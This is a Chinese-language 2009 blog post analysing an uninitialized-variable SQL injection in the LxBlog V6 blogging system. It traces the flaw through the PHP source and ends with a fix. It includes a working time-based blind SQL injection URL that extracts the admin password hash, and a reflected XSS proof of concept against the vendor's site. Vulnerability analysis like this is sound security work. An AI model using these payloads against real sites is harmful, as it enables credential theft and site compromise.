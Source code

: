 ```yaml
---
title: 浅析LxBlog V6变量未初始化漏洞
description: 《浅析LxBlogV6变量未初始化漏洞》作者：Flyh4t本文已经发表在黑客防线,转载请署名Lxblog是PHPWind开发的一套基于PHP+MySQL数据库平台架构的多用户博客系统，强调整站与用户个体间的交互，拥有强大的个人主页系统、独立的二级域名体系、灵活的用户模板系统、丰富的朋友圈和相册功能。但是该blog系统在安全性上并不让人满意，本文就来分析lxblog一个变量未初始化造成的sql注入漏洞。
date: 2009-03-24 10:25:30
category: 漏洞信息
tags: ['LxBlog', '漏洞信息', '注入']
post_id: 823
alias: LxBlog-V6-Uninitialized-variable-vulnerability
ViewNums: 3144
---
```


《[浅析LxBlog V6变量未初始化漏洞](/blog/lxblog-v6-uninitialized-variable-vulnerability)》作者：[Flyh4t](http://bbs.wolvez.org/post/174/)

本文已经发表在黑客防线,转载请署名

Lxblog 是 PHPWind 开发的一套基于 PHP+MySQL 数据库平台架构的多用户博客系统，强调整站与用户个体间的交互，拥有强大的个人主页系统、独立的二级域名体系、灵活的用户模板系统、丰富的朋友圈和相册功 能。但是该blog系统在安全性上并不让人满意，本文就来[分析lxblog一个变量未初始化造成的sql注入漏洞](/blog/lxblog-v6-uninitialized-variable-vulnerability)。

我们先来分析一下这个漏洞，看代码：

=======================code==================================
/user/tag.php
<?php
!function_exists('usermsg') && exit('Forbidden');
!in_array($type,$item_type) && exit;
//$type、$item_type均没有初始化
require_once(R_P.'mod/charset_mod.php');
foreach ($_POST as $key => $value) {
    ${'utf8_'.$key} = $value;
    ${$key} = $db_charset != 'utf-8' ? convert_charset('utf-8',$db_charset,$value) : $value;
}

if ($job == 'add') {
    ……//省略部分代码
}elseif($job=="modify"){
    $tagnum="{$type}num";
    $touchtagdb=$db->get_one("SELECT k.tags,i.uid FROM pw_{$type} k LEFT JOIN pw_items i ON i.itemid=k.itemid WHERE k.itemid='$itemid'");
    //$type带入查询语句操作数据库
    $touchtagdb['uid']!=$admin_uid && exit;
……//省略部分代码
=======================code==================================

当 然，在文件的第一行有 !function_exists('usermsg') && exit('Forbidden'); 这样一段代码的限制，我们不能直接访问该文件，但是可以通过user_index.php来include这个文件执行，看具体代码

=======================code==================================
//user_index.php
<?php
……//省略部分代码
require_once(R_P.'user/global.php');
require_once(R_P.'user/top.php');

if (!$action) {
    ……//省略部分代码
} elseif ($action && file_exists(R_P."user/$action.php")) {
    $basename = "$user_file?action=$action";
    require_once(Pcv(R_P."user/$action.php"));
   //通过提交$action=tag即可以调用到存在漏洞的文件
}
……//省略部分代码
=======================code==================================

看到这个地方，应该已经可以触发该漏洞了，但是依然要考虑到是否会受到register_global的影响，幸好user_index.php在开始的时候包含了user/global.php这个文件，看看这个文件为我们提供了什么

=======================code==================================
//user/global.php
<?
……//省略部分代码
if (!in_array($action,array('blogdata','comment','itemcp','post','userinfo'))) {
    //'blogdata','comment','itemcp','post','userinfo','global','top'
//我们提交的action=tag，不在上面这个数组里面，可以触发下面的代码成功绕过register_global的影响
    foreach ($_POST as $_key => $_value) {
        !ereg('^\_',$_key) && strlen(${$_key})<1 && ${$_key} = $_POST[$_key];
    }
    foreach ($_GET as $_key => $_value) {
        !ereg('^\_',$_key) && strlen(${$_key})<1 && ${$_key} = $_GET[$_key];
    }
}
……//省略部分代码
=======================code==================================

通过上面的分析，我们已经可以成功控制$type和$item_type的值了，但是还要注意两个地方：

第一个地方是要满足 in_array($type,$item_type)，我们通过直接将$type和$item_type[]赋值为相同变量即可

第二个地方是要注意我们注射的语句

$touchtagdb=$db->get_one("SELECT k.tags,i.uid FROM pw_{$type} k LEFT JOIN pw_items i ON i.itemid=k.itemid WHERE k.itemid='$itemid'");综合以上，我们构造出来盲注的代码如下

=======================poc==================================
//判断uid=1的用户的密码第一位的ASCII值是否大于0
http://blog.xxx.com/user_index.php?action=tag&job=modify&type=blog k LEFT JOIN pw_user i ON 1=1 WHERE i.uid =1 AND if((ASCII(SUBSTRING(password,1,1))>0),sleep(10),1)/*&item_type[]=blog k LEFT JOIN pw_user i ON 1=1 WHERE i.uid    =1 AND if((ASCII(SUBSTRING(password,1,1))>0),sleep(10),1)/*
=======================poc==================================

通过浏览器返回的时间来判断是否猜解正确，如果是正确的话，浏览器返回的比较慢，近似假死状态，否则返回的就比较正常。使用二分法不断猜解即可。另外，如果 数据库版本较低，可以使用benchmark函数来盲注，具体的expliot就不提供了，有需要的可以自己写个代码跑跑，不是什么难事。

另外我们看下lxblog的数据库容错代码

=======================code==================================
function DB_ERROR($msg) {
        global $db_blogname,$REQUEST_URI;
        $sqlerror = mysql_error();
        $sqlerrno = mysql_errno();
        //ob_end_clean();
        echo"<html><head><title>$db_blogname</title><style type='text/css'>P,BODY{FONT-FAMILY:tahoma,arial,sans-serif;FONT-SIZE:11px;}A { TEXT-DECORATION: none;}a:hover{ text-decoration: underline;}TD { BORDER-RIGHT: 1px; BORDER-TOP: 0px; FONT-SIZE: 16pt; COLOR: #000000;}</style><body>
";
        echo"<table style='TABLE-LAYOUT:fixed;WORD-WRAP: break-word'><tr><td>$msg";
        echo"<br><br><b>The URL Is</b>:<br>http://$_SERVER[HTTP_HOST]$REQUEST_URI";
        echo"<br><br><b>MySQL Server Error</b>:<br>$sqlerror  ( $sqlerrno )";
        echo"<br><br><b>You Can Get Help In</b>:<br><a target=_blank href=http://www.phpwind.net><b>http://www.phpwind.net</b></a>";
        echo"</td></tr></table>";
        exit;
    }
=======================code==================================

函数直接将造成数据库错误的url返回给客户端，对输出未作任何过滤，造成了xss漏洞，下面是我对官方的测试：

=======================poc==================================

http://www.lxblog.net/user_index.php?action=tag&job=modify&type=<script>alert(/xss/)</script>&item_type[]=<script>alert(/xss/)</script>

=======================poc==================================

Lxblog 的漏洞就分析到这里了，这个漏洞的修补也很简单，只要在数据库查询语句前面将变量$item_type赋值为指定的数组就可以了。网上的PHP程序有不少 都存在类似的漏洞，由于变量没有被正确的初始化，从而导致攻击者可以控制变量被改变程序的流程执行一些非法操作。其实这个问题并不复杂，保持一个良好的编 码习惯，正确初始化类和变量即可杜绝此类漏洞。

